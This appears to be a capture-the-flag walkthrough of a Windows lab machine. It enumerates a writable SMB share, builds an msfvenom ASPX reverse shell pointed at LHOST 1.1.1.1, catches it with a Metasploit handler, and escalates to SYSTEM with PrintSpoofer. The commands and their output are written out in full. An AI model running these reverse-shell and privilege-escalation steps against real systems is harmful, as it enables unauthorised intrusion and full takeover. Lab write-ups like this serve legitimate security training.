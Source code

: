 Running `gobuster` on it reveals there is a directory /nt4wrksv/ ... just like the on on SMB, if we actually try to access the file from SMB via the browser we can using the right path: `/nt4wrksv/passwords.txt`... Now this is interesting.

Running `smbmap` on the server we can see we have write access to the `/nt4wrksv/` location
```shell
$ smbmap -H 10.10.125.76 -u 'z3nn' -p ''
[+] Guest session       IP: 10.10.125.76:445    Name: unknown
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        nt4wrksv                                                READ, WRITE
```

# Exploit
Now that we have knowledge of the vulnerability and our entry point in the system it's time to exploit it... I used [PenTest.WS](https://pentest.ws/) to create a `MSF Venom` payload
```shell
msfvenom -p windows/x64/shell/reverse_tcp LHOST=1.1.1.1 LPORT=8585 -f aspx -o reverso.aspx
```

Upload payload to SMB server in `/nt4wrksv/` location

Start a netcat listener or... use the PenTest.WS `msfconsole` command it creates for you to open as a listener to this payload:
```shell
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/x64/shell/reverse_tcp; set LHOST 1.1.1.1; set LPORT 8585; run"
```

Access the payload via the web interface at /nt4wrksv/reverso.axp

We're in! Get the user flag.

# PrivEsc
PrivEsc was a bit funky, I did not expect it to be so easy... this machine was a slap in the face if you try too hard.

Thanks to `TheMayor`'s github repo we can download an already built `PrintSpoofer.exe` from here: [repo](https://github.com/dievus/printspoofer)

Upload that to the SMB server as we did with the reverse shell and run it...
```shell
c:\Users\Bob\Desktop>whoami
whoami
iis apppool\defaultapppool
..........
c:\inetpub\wwwroot\nt4wrksv>spoof.exe -i -c cmd
spoof.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

That's it... get root flag and get out.
